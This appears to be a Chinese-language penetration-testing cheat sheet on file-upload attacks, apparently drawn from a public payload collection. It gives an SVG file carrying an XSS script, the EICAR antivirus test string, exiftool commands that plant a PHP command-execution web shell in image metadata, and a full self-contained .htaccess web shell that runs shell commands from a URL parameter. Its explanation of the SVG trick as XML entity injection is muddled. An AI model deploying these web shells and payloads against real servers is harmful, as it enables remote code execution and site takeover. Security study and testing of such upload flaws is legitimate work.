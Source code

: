 **用于触发 XSS 的 HTML/SVG 文件**

```
svg ==>
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <text x="0" y="15">
    <tspan><![CDATA[<script>alert("XSS");</script>]]></tspan>
  </text>
</svg>
利用 XML 实体注入漏洞，在 SVG 文件中嵌入恶意代码。当浏览器解析 SVG 文件时，它会将 XML 实体解析为相应的字符。
```

**EICAR文件以检查防病毒软件是否存在**

EICAR 文件是一个用于测试防病毒软件是否存在的标准文件。这个文件不包含任何真正的病毒代码，而是包含一段特定的文本字符串，这个字符串是由 European Institute for Computer Anti-Virus Research (EICAR) 所定义的。当防病毒软件扫描这个文件时，它会检测到这个特定的字符串，并将其标记为病毒。

```
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
```

将这个字符串复制到一个文本文件中，将文件名改为 .com、.exe、.bat 或 .zip 等常见的病毒扩展名,防毒软件扫描文件时会将其标记为病毒

## 图片压缩

**图片马**

将有效的php负载托管在图片中，利用本地文件包含漏洞进行代码执行

https://developer.aliyun.com/aticle/1106993

图片调整大小，在压缩算法中隐藏有效负载以绕过调整大小

JPG：https://virtualabs.fr/Nasty-bulletproof-Jpegs-l

PNG/GIF：https://blog.isec.pl/injection-points-in-popular-image-formats/

```
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

使用imagebook和exiftool插入exif标签

## 配置文件

### .htaccess（php server）

看一个简单的例子

```
# Self contained .htaccess web shell - Part of the htshell project
# Written by Wireghoul - http://www.justanotherhacker.com

# Override default deny rule to make .htaccess file accessible over web
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
```
